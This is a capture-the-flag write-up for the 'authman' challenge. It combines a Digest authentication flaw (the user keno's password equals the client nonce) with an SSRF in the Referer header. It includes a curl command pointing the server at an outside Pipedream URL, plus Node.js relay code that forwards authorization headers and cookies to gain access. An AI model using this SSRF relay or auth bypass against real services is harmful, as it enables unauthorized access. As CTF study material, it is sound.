


# Solution for the "authman" Challenge

This document outlines the steps to solve the "authman" challenge, which involves bypassing a flawed Digest authentication mechanism by exploiting an SSRF vulnerability.

## Step 1: Initial Analysis of Digest Authentication at `/auth`

The initial investigation focused on the `crack.py` and `sample.txt` files, which suggested a dictionary attack against a Digest authentication endpoint (`/auth`).

The key finding from this analysis was a user-specific vulnerability for the user `keno`. For any given authentication request from `keno`, the password used to generate the response hash was the same as the `cnonce` (client nonce) for that request.

This was verified by recalculating the `response` hashes from `sample.txt` using the corresponding `cnonce` as the password. This indicates a severe flaw in how the server validates credentials for `keno`, as it seems to accept the client-provided `cnonce` as the password.

However, simply replaying a captured request or using an old `cnonce` as a password fails because the server `nonce` is single-use or time-expired. A fresh server `nonce` is required for each new authentication attempt.

## Step 2: Discovering the SSRF Vulnerability

The comments in `crack.py` hinted at a second vulnerability: a Server-Side Request Forgery (SSRF) in the `/api/check` endpoint.

```
# attack
authman % curl -X GET \
  -H "Referer: https://enlfg657jrgdt6s.m.pipedream.net" \
  https://authman.challs.pwnoh.io/api/check
```

By sending a GET request to `/api/check` with a `Referer` header, we can make the server issue a GET request to the URL specified in the `Referer`. This can be used to make the server talk to itself or other internal services.

## Step 3: Using SSRF and Pipedream to Get a Fresh Nonce

To get a fresh `nonce` needed for the final attack, we can combine the SSRF vulnerability with a Pipedream workflow. The plan is to have the server talk to our Pipedream workflow, which will in turn talk to the server's `/auth` endpoint to get a fresh challenge.

1.  Set up a Pipedream HTTP-triggered workflow.
2.  Trigger the SSRF by making a request to `/api/check` with the `Referer` header pointing to your Pipedream workflow URL.
3.  Use the following Node.js code in your Pipedream workflow. This code proxies the request to `/auth` and returns the `WWW-Authenticate` header it receives.

### Pipedream Node.js Code

This is the final version of the Pipedream code. It acts as a Man-in-the-Middle for the `/auth` endpoint, and correctly handles session cookies, which are required for the final authentication to succeed.

This code should be placed inside your existing `if (end_path === "auth")` block.
Ensure `axios` is imported at the top of your script if it's not globally available.

```javascript
  const targetServerUrl = "https://authman.challs.pwnoh.io/auth";
  const incomingAuthHeader = event.headers.authorization;
  const incomingCookieHeader = event.headers.cookie; // Capture incoming cookie

  if (incomingAuthHeader) {
    // --- Mode 2: Forward Authorization AND Cookie ---
    console.log("Forwarding request with Authorization and Cookie headers.");
    
    const headersToForward = {
      'Authorization': incomingAuthHeader,
    };
    if (incomingCookieHeader) {
      headersToForward['Cookie'] = incomingCookieHeader; // Add cookie to forwarded headers
    }

    try {
      const response = await axios.get(targetServerUrl, {
        headers: headersToForward
      });
      return await $respond({
        status: response.status,
        headers: response.headers,
        body: response.data,
      });
    } catch (error) {
      return await $respond({
        status: error.response ? error.response.status : 500,
        headers: error.response ? error.response.headers : {},
        body: error.response ? error.response.data : { error: error.message },
      });
    }

  } else {
    // --- Mode 1: Get challenge AND Set-Cookie ---
    console.log("Fetching new challenge and cookie from target server.");
    try {
      await axios.get(targetServerUrl);
      return await $respond({ status: 500, body: "Error: Target server did not return a 401 challenge as expected." });
    } catch (error) {
      const wwwAuthHeader = error.response?.headers?.["www-authenticate"];
      const setCookieHeader = error.response?.headers?.["set-cookie"]; // Capture Set-Cookie header

      if (wwwAuthHeader) {
        const responseHeaders = {
          "WWW-Authenticate": wwwAuthHeader,
        };
        if (setCookieHeader) {
          responseHeaders["Set-Cookie"] = setCookieHeader; // Forward Set-Cookie header to you
        }
        return await $respond({
          status: 401,
          body: "Unauthorized",
          headers: responseHeaders,
        });
      } else {
        return await $respond({ status: 500, body: `Error fetching challenge: ${error.message}` });
      }
    }
  }
```

When you now run `curl -i -H "Referer: <YOUR_PIPEDREAM_URL>" https://authman.challs.pwnoh.io/api/check`, the body of the response will contain the fresh `WWW-Authenticate` header.

## Step 4: Final Authentication at `/auth`

With a fresh `WWW-Authenticate` header, you have all the parameters needed to log in as `keno`.

1.  **Parse the header:** Extract the new `nonce`, `realm`, `qop`, and `opaque` values.
2.  **Generate a `cnonce`:** Create a new random client nonce (e.g., 16 hex characters).
3.  **Set the password:** The password is your newly generated `cnonce`.
4.  **Calculate the response:** Use the formulas from `crack.py` to calculate the final `response` hash using the fresh `nonce`, your `cnonce` (as the password), and other parameters.
5.  **Make the final request:** Send a GET request to `https://authman.challs.pwnoh.io/auth` with a correctly formatted `Authorization` header containing all the new values.

This final request will succeed, granting you access as the user "keno" 



## Mitm callback (forwarding cookie and the digest)



* What did not work? the cookie cracking for the hash via HA1 and HA2 were not successful with rockyou